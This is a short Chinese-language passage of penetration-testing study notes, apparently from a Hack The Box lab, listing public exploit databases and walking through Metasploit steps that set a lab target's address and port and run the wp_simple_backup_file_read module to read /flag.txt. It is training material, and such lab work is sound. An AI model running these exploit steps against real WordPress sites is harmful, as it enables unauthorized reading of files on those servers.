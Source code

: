 我们还可以利用在线漏洞数据库来搜索漏洞，例如[Exploit DB](https://www.exploit-db.com/)、[Rapid7 DB](https://www.rapid7.com/db/)或[Vulnerability Lab](https://www.vulnerability-lab.com/)。[Web 应用程序简介](https://academy.hackthebox.com/module/details/75)模块讨论了 Web 应用程序的公共漏洞。

#### Metasploit 入门

Metasploit Framework (MSF) 是渗透测试人员的绝佳工具。它包含许多针对许多公共漏洞的内置漏洞利用程序，并提供了一种针对易受攻击的目标使用这些漏洞利用程序的简便方法。

要运行`Metasploit`，我们可以使用以下`msfconsole`命令：

``` shell
msfconsole
```

搜索漏洞

``` shell
search exploit <xxx>
```

使用漏洞

``` shell
use auxiliary/scanner/http/wp_simple_backup_file_read
```

设置

``` shell
show options # 看有哪些
set RHOSTS 94.237.54.116
set RPORT 42821
set LHOST tun0
set FILEPATH /flag.txt
```

利用

``` shell
exploit
```

